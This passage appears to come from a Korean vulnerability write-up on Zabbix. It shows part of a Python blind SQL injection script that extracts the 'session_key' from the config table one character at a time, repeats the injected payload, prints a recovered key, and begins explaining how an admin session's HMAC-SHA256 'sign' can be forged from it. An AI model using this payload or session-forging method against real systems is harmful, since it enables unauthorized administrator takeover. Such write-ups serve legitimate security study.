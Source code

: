 ```python
                key = f"r.readonly AND IF(SUBSTRING((SELECT session_key FROM config LIMIT 1),{i},1)='{char}',1,0)"
                if result["result"][0]["role"].get(key) == "1":
                    session_key += char
                    print(f"[*] Found character: {char}")
                    found_char = True
                    break
            except KeyError:
                pass

        
        if not found_char:
            break

    print(f"[*] Extracted session_key: {session_key}")
    return session_key

if __name__ == "__main__":
    extract_session_key()

```

![/assets/2025-01-02-youngdu/image.png](/assets/2025-01-02-youngdu/image%207.png)

```python
readonly AND IF(SUBSTRING((SELECT session_key FROM config LIMIT 1),{i},1)='{char}',1,0)
```

config 테이블에 존재하는 `session_key` 를 한글자씩 추출하는 코드입니다.

session_key  : `c6a271aa63d4657cc5bcb3cfd26bbe95`

### 5. 탈취한 세션을 통해 관리자 세션 생성 및 로그인

zabbix에서는 세션을 생성할때 `sessionid`와 해당 세션을 검증하는 `sign`으로 구성되어 있습니다.

`sign`은 HMAC-SHA256알고리즘을 사용하여 `session_key`를 기반으로 생성됩니다.
